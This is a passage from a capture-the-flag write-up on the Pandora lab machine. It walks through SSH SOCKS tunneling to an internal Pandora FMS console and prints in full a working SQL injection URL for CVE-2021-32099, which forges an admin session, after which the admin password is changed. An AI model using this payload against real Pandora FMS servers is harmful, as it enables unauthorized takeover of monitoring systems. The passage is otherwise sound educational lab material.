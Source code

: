So that confirms we have another website to check out and we'll need to use some **SSH tunneling** to get to it. I run this and login:

`ssh -D 7777 daniel@10.10.11.136`

Then in my web browser I create a new Socks5 proxy in FoxyProxy and point it to port 7777.

Finally, I add the following to my **/etc/hosts** file and open my webbrowswer to **localhost.localdomain**.

```
10.10.11.136	localhost.localdomain
```

<br>

## More Website Digging

We arrive on a page called Pandora FMS, which stands for Flexible Monitoring System according to the title bar. It has a version number at the bottom of the page:

```
v7.0NG.742_FIX_PERL2020
```

There's also a login form and a docs and support link that take you to the actual Pandora FMS products site.

![](images/pandora2.png)

<br>

I search for vulnerabilities on this version of Pandora FMS and find a few. One in particular, **CVE-2021-32099**, looks promising since most of the other ones require us to already be authenticated. It's an **SQLi attack** against the **chart_generator.php** file. Going to the URL they listed told me I did not have access, but when I pressed the back button to get to the main **index.php** page I found myself logged in as admin.

This is the link I used:

```
http://localhost.localdomain/pandora_console/include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario%7Cs:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271
```

And the admin panel of the website:

![](images/pandora3.png)

<br>

I check out the **Workspace -> Edit my user** menu and it allows me to change the password for admin, which I do so it's easier to get back in if needed. It doesn't ask for the current password to do this.

![](images/pandora4.png)
